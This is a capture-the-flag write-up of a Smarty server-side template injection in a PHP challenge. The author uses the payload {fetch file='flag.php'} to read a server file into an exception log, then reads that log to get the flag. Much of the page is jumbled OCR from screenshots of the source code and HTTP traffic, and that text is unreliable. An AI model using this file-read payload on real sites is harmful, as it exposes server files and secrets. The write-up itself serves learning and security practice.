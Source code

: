 # boze
> How smart and capable is the smarty lib?

## About the Challenge
We were given a website that using smarty template to render our input, here is the preview of the source code


[Image extracted text: Not Secure
35.198.135.192.30326
<?php
require_once
vendor/ smarty/smarty/libs/Smarty.class.php "
;
if
isset($_GET [ 'content' ]) )
ssourceCode
file_get_contents(_FILE_);
echo
<pre>
htmlspecialchars( $sourceCode)
'<lpre>
exit;
}
When you
think you
own
this
but
these
comments
are
worth
even
more
ScompileDir
/tmp/smarty_compile/ '
%
if
(!is_dir(scompileDir) )
{
mkdir(scompileDir,
0755,
true) ;
ssmarty
new
Smarty() ;
ssmarty->display ( $_GET [ 'content' ]) ;
I [
ssmarty->setCompileDir(scompileDir)
}
catch
(Exception
Se)
{
echo
Still here?
SexceptionDetails
"Exception
File:
se->getMessage( )
"In" ;
stempFilePath
1
'tmp/sma
exception. log
file_put_contents(stempFilePath,
SexceptionDetails,
FILE_APPEND ) ;
}
2>
try
rty_]


It first checks if a `content` parameter is set in the GET request. If not, it displays the source code of the script. If the `content` parameter is set, it creates a new Smarty object and tries to display the content specified in the `content` parameter. If an exception occurs, it echoes `Still here?` and logs the exception details to a file. The source code is vulnerable to SSTI. We need to input the payload in the `content` parameter and then check the log file to see the output.

## How to Solve?
At first I tried to input every payload which is on `Hacktricks`, but I failed -_- 


[Image extracted text: ]


And then I tried to read the smarty documentation and I found the `fetch` class method. This function is used to retrieve a resource from a URL. And I inputted in the `content` parameter

```
{fetch file='flag.php'}
```


[Image extracted text: GET
/?content-{fetchs2ofile=
php '|
HTTP/1.1
HTTP/1.1
200
OK
2
Host:
35.198
135.192:30326
2
Date:
Sun,
22
Oct
2023
10:20
38
GMT
3
Cache-Control:
max-age-0
3
Server:
Apache
Upgrade-Insecure-Requests:
Content-Length:
11
5
User-Agent:
Mozilla/5.0
(Windows
NT
10.0;
Win64;
X64)
5
Connection:
close
AppleWebKit/537.36  (KHTML,
like
Gecko)
Chrome/118 . 0
5993. 88
6 Content-Type:
text/html;
charset-UTF-8
Safari/537.36
Accept:
8
Still
here?
text/html,application/xhtml+xml,application/xml;q-0.9,image/avif ,
image/webp, image/apng, */*;q-0.8,application/signed-exchange;v=b3;
q=0.7
Accept-Encoding
gzip,
deflate,
br
8 Accept-Language
en-US, en;q=0.9
9
Connection:
close
10
11
flag.]


And then check `/tmp/smarty_exception.log` file to obtain the flag


[Image extracted text: 6ET
/?content=
tmp_
smarty_
exception.
HTTP/1.1
HTTP/1.1
200
OK
2
Host:
35.198
135.192:30326
2
Date:
Sun,
22
Oct
2023
10:19:20
GMT
3
Cache-Control:
max-age-0
3
Server:
Apache
Upgrade-Insecure-Requests
Accept-Encoding
5
User-Agent
Mozilla/5 .0
(Windows
NT
10.0;
Win64;
X64)
5 Content-Length:
238
AppleWebKit/537
36
(KHTML ,
like
Gecko)
Chrome/118.0.5993.88
6
Connection:
close
Safari/537.36
Content-Type
text/html;
charset-UTF-8
Accept
8
text/html,application/xhtml+xml,application/xml;q-0.9, image/avif_
Exception
File:
Unable
to
Zoad
template
file:<
?php
image/webp, image/apng,*/*;q-0.8,application/signed-exchange;v=b3;
10
q=0 _
11 $flag_4f3qdw
Accept-Encoding
gzip,
deflate
br
ctf{72874605748965cbd4350a538edgabbfb20fbc47a8443addcd5c4adfd57dc
Accept-Language:
en-US, en;q=0.9
a79}"
Connection:
close
12
10
13
2>
11
14
15
Just
when
you
think
you
ve
seen
it
all,
this
person
is
really
pushing
the
boundaries
dD
16
log
Vary =]


```
ctf{72874605748965cbd4350a538e09abbfb20fbc47a8443addcd5c4adfd57dca79}
```